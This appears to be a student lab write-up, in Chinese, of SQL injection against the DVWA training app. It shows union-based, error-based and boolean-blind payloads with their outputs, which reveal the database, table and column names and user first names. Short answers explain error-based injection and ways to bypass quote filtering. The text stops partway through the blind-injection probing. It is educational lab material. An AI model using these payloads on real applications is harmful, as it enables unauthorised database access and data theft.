







### 1.分别在前端和后端使用 Union 注入实现“dvwa 数据库 -user 表 - 字段 -first_name 数据”的注入过程，写清楚注入步骤。

#### 1.确认注入字段数量

```shell
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 order by 2;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' order by 2#

ID: 1' order by 2#
First name: admin
Surname: admin

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 order by 3;
ERROR 1054 (42S22): Unknown column '3' in 'order clause'

1' order by 3#
Unknown column '3' in 'order clause'
# 异常，说明字段数为2
```

#### 2.确认显示位置

```shell
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 union select 1,2;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
| 1          | 2         |
+------------+-----------+
2 rows in set (0.00 sec)

1' union select 1,2#

ID: 1' union select 1,2#
First name: admin
Surname: admin

ID: 1' union select 1,2#
First name: 1
Surname: 2
# 确定显示位
```

#### 3.确认数据库名等信息

```shell
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 union select database(),version();
+------------+---------------------+
| first_name | last_name           |
+------------+---------------------+
| admin      | admin               |
| dvwa       | 5.5.54-0+deb8u1-log |
+------------+---------------------+
2 rows in set (0.00 sec)

1' union select database(),version()#

ID: 1' union select database(),version()#
First name: admin
Surname: admin

ID: 1' union select database(),version()#
First name: dvwa
Surname: 5.5.54-0+deb8u1-log
# 爆出数据库名和版本信息
```

#### 4.确认目标数据库所有表名

```shell
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 union select 1,group_concat(table_name) from information_schema.tables where table_schema = 'dvwa';
+------------+-----------------+
| first_name | last_name       |
+------------+-----------------+
| admin      | admin           |
| 1          | guestbook,users |
+------------+-----------------+
2 rows in set (0.00 sec)

1' union select 1,group_concat(table_name) from information_schema.tables where
table_schema ='dvwa'#

ID: 1' union select 1,group_concat(table_name) from information_schema.tables where table_schema ='dvwa'#
First name: admin
Surname: admin

ID: 1' union select 1,group_concat(table_name) from information_schema.tables where table_schema ='dvwa'#
First name: 1
Surname: guestbook,users
# 爆出dvwa数据库中有 guestbook,users 两个表
```

#### 5.确认目标表所有字段名

```shell
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users';
+------------+---------------------------------------------------------------------------+
| first_name | last_name                                                                 |
+------------+---------------------------------------------------------------------------+
| admin      | admin                                                                     |
| 1          | user_id,first_name,last_name,user,password,avatar,last_login,failed_login |
+------------+---------------------------------------------------------------------------+
2 rows in set (0.00 sec)


1' UNION SELECT 1,group_concat(column_name) from information_schema.columns
where table_schema='dvwa' and table_name='users'#

ID: 1' UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users'#
First name: admin
Surname: admin

ID: 1' UNION SELECT 1,group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users'#
First name: 1
Surname: user_id,first_name,last_name,user,password,avatar,last_login,failed_login
# 得到users表中的字段名
```

#### 6.确认目标字段信息

```shell
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 union select first_name,1 from users;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
| admin      | 1         |
| Gordon     | 1         |
| Hack       | 1         |
| Pablo      | 1         |
| Bob        | 1         |
+------------+-----------+
6 rows in set (0.00 sec)

1' union select first_name,1 from users#

ID: 1' union select first_name,1 from users;#
First name: admin
Surname: admin

ID: 1' union select first_name,1 from users;#
First name: admin
Surname: 1

ID: 1' union select first_name,1 from users;#
First name: Gordon
Surname: 1

ID: 1' union select first_name,1 from users;#
First name: Hack
Surname: 1

ID: 1' union select first_name,1 from users;#
First name: Pablo
Surname: 1

ID: 1' union select first_name,1 from users;#
First name: Bob
Surname: 1
# 得到first_name 
```


### 2.分别在前端和后端使用报错注入实现“dvwa 数据库 -user 表 - 字段”的注入过程，写清楚注入步骤，并回答下列关于报错注入的问题：

#### 1.找到库名

```shell
SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,show databases;));

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,database()));
ERROR 1105 (HY000): XPATH syntax error: '~dvwa'

1' and extractvalue(1,concat(0x7e,database()));#
XPATH syntax error: '~dvwa'
```

#### 2.找到目标数据库所有表名

```shell
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select count(table_name) from information_schema.tables where table_schema=database())));
ERROR 1105 (HY000): XPATH syntax error: '~2'

1' and extractvalue(1,concat(0x7e,(select count(table_name) from
information_schema.tables where table_schema=database())));#
XPATH syntax error: '~2'

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)));
ERROR 1105 (HY000): XPATH syntax error: '~guestbook'

1' and extractvalue(1,concat(0x7e,(select table_name from
information_schema.tables where table_schema=database() limit 0,1)));#
XPATH syntax error: '~guestbook'

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 1,1)));
ERROR 1105 (HY000): XPATH syntax error: '~users'

1' and extractvalue(1,concat(0x7e,(select table_name from
information_schema.tables where table_schema=database() limit 1,1)));#
XPATH syntax error: '~users'
```

#### 3.找到目标数据表所有列名

```shell
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 0,1)));
ERROR 1105 (HY000): XPATH syntax error: '~user_id'

1' and extractvalue(1,concat(0x7e,(select column_name from
information_schema.columns where table_name='users' limit 0,1)));#
XPATH syntax error: '~user_id'

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 1,1)));
ERROR 1105 (HY000): XPATH syntax error: '~first_name'

1' and extractvalue(1,concat(0x7e,(select column_name from
information_schema.columns where table_name='users' limit 1,1)));#
XPATH syntax error: '~first_name'

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 2,1)));
ERROR 1105 (HY000): XPATH syntax error: '~last_name'

1' and extractvalue(1,concat(0x7e,(select column_name from
information_schema.columns where table_name='users' limit 2,1)));#
XPATH syntax error: '~last_name'

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 3,1)));
ERROR 1105 (HY000): XPATH syntax error: '~user'

1' and extractvalue(1,concat(0x7e,(select column_name from
information_schema.columns where table_name='users' limit 3,1)));#
XPATH syntax error: '~user'

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 4,1)));
ERROR 1105 (HY000): XPATH syntax error: '~password'

1' and extractvalue(1,concat(0x7e,(select column_name from
information_schema.columns where table_name='users' limit 4,1)));#
XPATH syntax error: '~password'

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 5,1)));
ERROR 1105 (HY000): XPATH syntax error: '~avatar'

1' and extractvalue(1,concat(0x7e,(select column_name from
information_schema.columns where table_name='users' limit 5,1)));#
XPATH syntax error: '~avatar'

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 6,1)));
ERROR 1105 (HY000): XPATH syntax error: '~last_login'

1' and extractvalue(1,concat(0x7e,(select column_name from
information_schema.columns where table_name='users' limit 6,1)));#
XPATH syntax error: '~last_login'

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 7,1)));
ERROR 1105 (HY000): XPATH syntax error: '~failed_login'

1' and extractvalue(1,concat(0x7e,(select column_name from
information_schema.columns where table_name='users' limit 7,1)));#
XPATH syntax error: '~failed_login'

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 8,1)));
Empty set (0.00 sec)
```

#### 4.在 extractvalue 函数中，为什么’~'写在参数 1 的位置不报错，而写在参数 2 的位置报错？

当你在参数 1（XML文档）位置放置 `~`（或任何其他非 XML 数据）时，MySQL 尝试将其解析为 XML。由于 `~` 不是一个有效的 XML 片段，它简单地被视为字符串，并且不会引发错误。但是，你不会从这个“XML”中得到任何实际的数据提取。

然而，当你把 `~` 放在参数 2（XPath表达式）的位置时，MySQL 尝试将其解析为 XPath。由于 `~` 不是一个有效的 XPath，MySQL 会抛出一个错误，表示它不能解析该表达式。

总的来说，参数 1 期望一个 XML 字符串，而参数 2 期望一个 XPath 字符串。尽管都是字符串，但两者期望的格式和内容是不同的，这就是为什么在不同位置放置 `~` 会有不同效果的原因。

#### 5.报错注入中，为什么要突破单引号的限制，如何突破？

单引号（'）在 SQL 中具有特殊的意义，它用于定义字符串字面值。因此，很多时候，攻击者尝试注入一些恶意的 SQL 代码时，会用到单引号来结束当前的字符串字面值，并开始他们自己的恶意查询。

以下是一些常见的方法，用于突破单引号限制：

1. **双写单引号**：在很多数据库系统中，两个连续的单引号被解释为一个字面的单引号，而不是字符串的结束。例如，`''` 被解释为一个单引号。
2. **使用数字**：如果字段是数字类型的，那么可以尝试直接注入数字而无需使用单引号。
3. **使用其他字符**：某些数据库允许使用其他字符作为字符串分隔符，例如双引号（"）或反撇号（`）。
4. **注释**：可以使用 SQL 注释（例如 `--` 或 `/* */`）来终止原始查询的其余部分，这样攻击者的输入可以被解释为 SQL 代码。
5. **字符编码**：某些过滤机制可能不会识别或正确处理某些编码或转义的字符，这可能允许攻击者绕过单引号限制。
6. **使用内置函数**：某些数据库提供了函数，可以生成或操作字符串，包括生成单引号。例如，使用 `CHAR()` 函数来生成特定的 ASCII 字符。
7. **堆叠查询**：在某些情况下，可以使用分号（;）来结束当前查询并开始一个新的查询，这称为堆叠查询。

#### 6.在报错注入过程中，为什么要进行报错，是哪种类型的报错？

目的是从这些错误消息中提取或推断有关数据库结构、内容或其他有用信息的细节。通过错误消息，攻击者可能能够得知表名、列名、当前使用的数据库版本，甚至是某些数据。

哪种类型的报错被用于注入：

1. **类型错误**: 这是当预期的数据类型与实际提供的数据类型不匹配时产生的。例如，尝试将字符串插入数字字段可能会导致错误。
2. **转换错误**: 当数据库尝试将一个值转换为另一个不兼容的类型时，可能会发生这种错误。
3. **XPath 或 XML 错误**: 在某些情况下，尤其是当数据库支持 XML 功能时，攻击者可以尝试构造会导致 XPath 或 XML 解析错误的查询。
4. **函数或过程错误**: 如果攻击者使用了不存在的函数名或传递了错误的参数数目，数据库可能会返回一个错误。

### 3.任选布尔盲注或者时间盲注在前端和后端实现“库名 - 表名 - 列名”的注入过程，写清楚注入步骤。

#### 1.探测数据库名

```shell
mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and length(database())>10;
Empty set (0.00 sec)

1' and length(database())>10;# MISSING 

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and length(database())>5;
Empty set (0.00 sec)

1' and length(database())>5;# MISSING 

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and length(database())>3;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and length(database())>3;# exists 

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and length(database())=4;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and length(database())=4;# exists 

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),1,1))>128;
Empty set (0.00 sec)

1' and ascii(substr(database(),1,1))>128;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),1,1))>64;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),1,1))>64;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),1,1))>96;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),1,1))>96;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),1,1))>112;
Empty set (0.00 sec)

1' and ascii(substr(database(),1,1))>112;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),1,1))>104;
Empty set (0.00 sec)

1' and ascii(substr(database(),1,1))>104;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),1,1))>100;
Empty set (0.00 sec)

1' and ascii(substr(database(),1,1))>100;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),1,1))>98;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),1,1))>98;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),1,1))>99;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),1,1))>99;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),1,1))=100;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),1,1))=100;# exists
#数据库名称的首位字符对应的ASCII码为100，查询是字母 d

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),2,1))>128;
Empty set (0.00 sec)

1' and ascii(substr(database(),2,1))>128;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),2,1))>64;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),2,1))>64;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),2,1))>96;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),2,1))>96;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),2,1))>112;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),2,1))>112;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),2,1))>120;
Empty set (0.00 sec)

1' and ascii(substr(database(),2,1))>120;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),2,1))>116;
+------------+-----------+
| first_name | last_name |
+------------+-----------+
| admin      | admin     |
+------------+-----------+
1 row in set (0.00 sec)

1' and ascii(substr(database(),2,1))>116;# exists

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),2,1))>118;
Empty set (0.00 sec)

1' and ascii(substr(database(),2,1))>118;# MISSING

mysql> SELECT first_name, last_name FROM users WHERE user_id = 1 and ascii(substr(database(),2,1))>117;
